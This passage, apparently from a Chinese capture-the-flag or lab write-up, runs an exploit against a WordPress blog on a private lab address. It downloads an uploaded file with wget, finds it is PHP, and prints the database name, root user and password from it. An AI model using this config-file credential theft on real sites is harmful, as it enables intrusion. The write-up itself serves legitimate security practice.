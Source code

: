 ![image-20240202140429985](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200969.png)

然后运行：

![image-20240202141139703](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200970.png)

搜索一下相关报错，发现：https://zhaokaifeng.com/686/

修改一下，在最前面添加一下`#coding=utf-8`

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200971.png" alt="image-20240202141301083" style="zoom:33%;" />

运行成功！打开`uploads`目录查看一下：

```apl
https://192.168.244.178:12380/blogblog/wp-content/uploads/
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200972.png" alt="image-20240202141427812" style="zoom:50%;" />

读取到了一个文件，下载到本地打开看一下：

```shell
wget https://192.168.244.178:12380/blogblog/wp-content/uploads/886517699.jpeg --no-check-certificate
# --2024-02-02 03:21:16--  https://192.168.244.178:12380/blogblog/wp-content/uploads/886517699.jpeg
# Connecting to 192.168.244.178:12380... connected.
# WARNING: The certificate of ‘192.168.244.178’ is not trusted.
# WARNING: The certificate of ‘192.168.244.178’ doesn't have a known issuer.
# The certificate's owner does not match hostname ‘192.168.244.178’
# HTTP request sent, awaiting response... 200 OK
# Length: 3042 (3.0K) [image/jpeg]
# Saving to: ‘886517699.jpeg’
# 886517699.jpeg                                    100%[==========================================================================================================>]   2.97K  --.-KB/s    in 0s      
# 2024-02-02 03:21:16 (158 MB/s) - ‘886517699.jpeg’ saved [3042/3042]
file 886517699.jpeg
# 886517699.jpeg: PHP script, ASCII text
```

看一下里面有啥：（傻了，其实可以直接cat的）

```php
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'plbkac');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8mb4');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');
```
